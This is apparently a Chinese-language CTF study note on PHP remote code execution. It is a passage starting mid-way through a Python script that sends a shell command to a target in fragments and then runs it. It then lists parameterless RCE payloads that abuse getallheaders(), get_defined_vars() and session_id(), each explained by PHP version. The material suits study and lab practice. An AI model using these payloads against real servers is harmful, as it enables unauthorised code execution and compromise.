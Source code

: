 ```python
    '>rl\\',
    '>cu\\'
]
for i in list:
    time.sleep(1)
    url = baseurl+str(i)
    s.get(url)

for j in list2:
    time.sleep(1)
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh x")
s.get(baseurl+"sh g")
```

## 13：无参数RCE

![image-20250808161248490](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250808161248490.png)

正则：`/[^\W]+\((?R)?\)/`

(?R)?：

- `(?R)` 是递归引用整个正则表达式模式
- `?` 表示递归部分是可选的

整个正则匹配嵌套的函数调用比如a()	a(bdf())	a(fdasf(asdf()))

#### HTTP 请求标头   (php7)

`getallheaders()`获取所有HTTP请求标头(反序,数组)

`?code=print_r(pos(getallheaders()))`获取burpsuite看到的最后一项（数组的第一项）

`?code=eval(pos(getallheaders()))`直接写system()

也可以使用`implode`函数，注意要加注释符号

#### 利用全局变量RCE  (php5/7)

get_defined_vars()   返回所有已定义变量的值，所组成的数组

`?code=print_r(get_defined_vars());`第一个成员就是一个数组

`eval(end(pos(get_defined_vars())));&cmd=system('ls');`所以一次pos找到get数组，一次end找到cmd

#### session RCE (php5)

`?code=print_r(session_id(session_start()));`

为什么不能用于php7？

session_start()返回true or flase，作为参数传递给session_id。php5中会忽略，实际当作参数为空，返回当前的会话 ID。但是php7**类型检查**更加严格，session_id**期望参数**是一个字符串（用于设置会话 ID），遇到bool时认为无效返回空字符串
